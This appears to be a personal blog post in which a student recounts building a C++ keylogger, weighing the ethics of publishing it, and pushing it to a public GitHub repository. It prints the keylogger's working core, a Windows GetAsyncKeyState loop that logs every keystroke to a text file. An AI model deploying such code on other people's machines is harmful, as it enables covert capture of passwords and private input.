 ```yaml
---
title: "My First Project on Github- keylogger"
publishedAt: "2023-03-05"
summary: "First project to Github and the lessons learned along the way."
---
```


## My First Project and Why I Pushed it to Github

During my third year of college, I created a keylogger project using C++ which gave me curiosity and introduced me to the world of hacking. This project was my first time working on a real project using coding. However, after completing the project, I was faced with the dilemma of whether to make it open source or not. I was afraid that the tool could be used for malicious purposes, which made me hesitant to share it with others. After considering the ethical implications of developing such a tool and my desire to share my work with the world, I ultimately decided to push my project to Github.

## From Coding Curiosity to Cybersecurity Internship

My Journey So Far As someone who was never interested in coding before, my keylogger project sparked my curiosity and led me to learn more about cybersecurity. I ended up doing an internship at Gurgaon Police on cyber security, where I met so many cool people and learned a lot about the industry. This experience was invaluable and taught me the importance of ethical hacking and the real-world impact of cybercrime.

## Developing a Tool with Ethical Implications

How I Overcame My Concerns When developing the keylogger project, I was acutely aware of the ethical implications of creating a tool that could be used for malicious purposes. I was hesitant to share it with others, worried about the possible consequences. However, after thinking about the potential benefits of open sourcing my project, such as improving the security of online systems, I decided to push it to Github.

### Here's a glimpse of the important code used in the keylogger project:

```c++
#include <iostream>
#include <Windows.h>
#include <fstream>

using namespace std;

void log() {
    char c;
    for (;;) {
        for (c = 8; c < 190; c++) {
            if (GetAsyncKeyState(c) == -32767) {
                ofstream write("newlog.txt", ios::app);
                write << c;
                write.close();
            }
        }
    }
}

int main() {
    log();
    return 0;
}

```

This code contains the log() function that captures keystrokes using a loop, and writes them to a text file called "newlog.txt". The main() function simply calls the log() function to start the keylogging process.

## Pushing My Project to Github

Pushing my project to Github was a new experience for me. After creating an account and navigating the user interface, I uploaded my code to a public repository on Github (https://github.com/nhemnt/keylogger). At first, I didn't expect much attention, but I hoped that it might help other beginners to learn about keyloggers and understand the importance of cyber security.

